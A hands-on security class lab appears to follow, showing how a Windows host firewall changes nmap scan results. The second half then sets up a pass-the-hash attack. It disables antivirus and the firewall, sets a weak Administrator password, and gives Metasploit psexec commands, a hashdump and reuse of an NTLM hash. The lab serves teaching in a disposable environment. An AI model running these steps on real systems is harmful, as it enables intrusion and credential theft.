





# Host Firewalls and Nmap

In this lab we will be scanning your **Windows** system from your **Linux** terminal with the firewall both on and off. 

The goal is to show you how a system is very different to the network with a firewall enabled. 

Remember, treat your internal network as hostile, because it is.

Let's get started by opening a command prompt terminal. You can do this by clicking the icon in the taskbar.

From the command prompt we need to get the IP address of **your** Windows system:

<pre>ipconfig</pre>

Please note your IP for **your** system. Mine is **"10.10.1.209"**. 

**Yours will be different.**

Let’s try and scan your Windows system from within a **Kali** terminal. Go ahead and open a **Kali** terminal up.

Alternatively, you can click on the **Kali** logo in the taskbar.

In the **Kali** terminal, let’s become root:

<pre>sudo su -</pre>

We will scan your Windows system:

<pre>nmap 10.10.1.209</pre>

You can hit the spacebar to get status.

It should look like this:

Please note the open ports. These are ports and services that an attacker could use to authenticate to your system or attack if an exploit is available. 

Go back to the **Windows** command prompt.  

Let’s enable the Windows firewall:

<pre>netsh advfirewall set allprofiles state on</pre>

Now, let’s rescan from the **Kali** terminal.

Rerun the scan: 

<pre>nmap 10.10.1.209</pre>

Please note, you can just hit the up arrow key to view previously run commands.  

You can hit the spacebar to see status.

It should look like this:

Now, using the same process as before, let’s disable the **Windows** firewall to go back to the base state:

<pre>netsh advfirewall set allprofiles state off</pre>

Now, lets see why this is important with pass the hash.

First lets configure the Windows system

Let's disable AV.

PS C:\Users\Administrator> `Set-MpPreference -DisableRealtimeMonitoring $true`

Next, let's make sure that firewall is off.

PS C:\Users\Administrator> `netsh advfirewall set allprofiles state off`

Now, let's set an easy password.  

PS C:\Users\Administrator> `net user Administrator password1234`

PS C:\Users\Administrator> `ipconfig`

It should look like this:

Now, let's open a Kali terminal:

Become root:

`sudo su -`

Start Metasploit

`msfconsole -q`

In another Kali terminal, get your IP address

`ifconfig`

msf6 > `use exploit/windows/smb/psexec`

msf6 exploit(windows/smb/psexec) > `set RHOST 10.10.70.106`

msf6 exploit(windows/smb/psexec) > `set LHOST 10.10.117.128`

msf6 exploit(windows/smb/psexec) > `set SMBUSER Administrator`

msf6 exploit(windows/smb/psexec) > `set SMBPASS password1234`

It should look lie this:

Now dump the password hashes:

meterpreter > `hashdump`

meterpreter > exit -y

msf6 exploit(windows/smb/psexec) > `set SMBPASS aad3b435b51404eeaad3b435b51404ee:30ee6993157208a29fb730af8bcc3dfe`

msf6 exploit(windows/smb/psexec) > `exploit`

Kill it

meterpreter > `exit -y`

Now, back at the Windows Powershell, re-enable your firewall

PS C:\Users\Administrator> `netsh advfirewall set allprofiles state on`

Then re-run the attack!!

***
***Continuing on to the next Lab?***

[Click here to get back to the Navigation Menu](/IntroClassFiles/navigation.md)

***Finished with the Labs?***

Please be sure to destroy the lab environment!

[Click here for instructions on how to destroy the Lab Environment](/IntroClassFiles/Tools/IntroClass/LabDestruction/labdestruction.md)

[Return To Lab List](https://github.com/strandjs/IntroLabs/blob/master/IntroClassFiles/navigation.md)

---

